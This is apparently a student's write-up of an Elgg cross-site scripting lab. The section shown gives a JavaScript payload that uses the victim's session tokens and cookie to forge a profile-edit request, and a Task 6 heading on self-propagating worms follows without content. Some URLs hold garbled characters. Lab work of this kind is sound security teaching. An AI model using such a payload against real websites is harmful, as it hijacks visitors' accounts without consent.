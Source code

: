 
---

### Task 5 : Writing an XSS worm
- coding a worm which can change the information of an account in the web app.
  - This requires the analysis of changing the 'about me' section in the web app.
- The attacker user11 uses the other account samy to update the 'about me' section to study the process.
- The 'inspect element' reveals that the process is a `POST request` which requires few parameters from the document.
  - These parameters are specific to the session and the user,
  - therefore, searching the parameters in the document

The javascript code must contain
- the `post request` required to proceed
- with the changing of the text in the 'about me' section.
- this will not affect others who view this profile.

```js
<script type="text/javascript">
var sendurl="http网址www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();

ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie", document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

//                             http网址www.xsslabelgg.com/profile/         user14                  /edit
ff.setRequestHeader("Referer","http网址www.xsslabelgg.com/profile/"+elgg.session.user["username"]+"/edit");

//      __elgg_ts=AAAA  &__elgg_token=BBBB     &description=User-11-is-great   &name=user14  &accesslevel[description]=2  &guid=user14Id0000001
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];

ff.send(params);
```


---

### Task 6 : Creating a self propagating worm
- exponential growth
- dynamically generate code
